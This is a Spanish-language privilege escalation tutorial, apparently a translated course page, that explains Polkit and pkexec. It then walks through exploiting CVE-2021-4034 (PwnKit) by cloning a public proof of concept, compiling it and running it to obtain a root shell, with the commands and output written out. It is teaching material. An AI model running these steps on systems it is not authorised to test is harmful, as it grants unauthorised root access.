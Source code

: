 # Polkit

---

PolicyKit (`polkit`) es un servicio de autorización en sistemas operativos basados ​​en Linux que permite que el software de usuario y los componentes del sistema se comuniquen entre sí si el software del usuario está autorizado a hacerlo. Para verificar si el software del usuario está autorizado para esta instrucción,`polkit`se le pregunta. Es posible establecer cómo se otorgan los permisos de forma predeterminada para cada usuario y aplicación. Por ejemplo, para cada usuario, se puede establecer si la operación debe estar generalmente permitida o prohibida, o la autorización como administrador o como usuario separado con una validez única, limitada por el proceso, limitada por sesión o ilimitada. Para usuarios y grupos individuales, las autorizaciones se pueden asignar individualmente.

Polkit funciona con dos grupos de archivos.

1. acciones/políticas (`/usr/share/polkit-1/actions`)
2. normas (`/usr/share/polkit-1/rules.d`)

Polkit también tiene`local authority`Reglas que se pueden usar para establecer o eliminar permisos adicionales para usuarios y grupos. Se pueden colocar reglas personalizadas en el directorio`/etc/polkit-1/localauthority/50-local.d`con la extensión del archivo`.pkla`.

Polkit también viene con tres programas adicionales:

- `pkexec`- ejecuta un programa con los derechos de otro usuario o con derechos raíz
- `pkaction`- se puede usar para mostrar acciones
- `pkcheck`- Esto se puede usar para verificar si un proceso está autorizado para una acción específica

La herramienta más interesante para nosotros, en este caso, es`pkexec`porque realiza la misma tarea que`sudo`y puede ejecutar un programa con los derechos de otro usuario o raíz.

  Polkit

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

En el`pkexec`herramienta, la vulnerabilidad de la corrupción de memoria con el identificador[CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)fue encontrado, también conocido como[Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)y también conduce a la escalada de privilegios. Esta vulnerabilidad también estuvo oculta durante más de diez años, y nadie puede decir con precisión cuándo fue descubierto y explotado. Finalmente, en noviembre de 2021, esta vulnerabilidad fue publicada y solucionada dos meses después.

Para explotar esta vulnerabilidad, necesitamos descargar un[POC](https://github.com/arthepsy/CVE-2021-4034)y compilarlo en el sistema de destino en sí o una copia que hemos hecho.

  Polkit

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Una vez que hemos compilado el código, podemos ejecutarlo sin más preámbulos. Después de la ejecución, cambiamos del shell estándar (`sh`) para golpear (`bash`) y verifique las ID del usuario.

  Polkit

```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```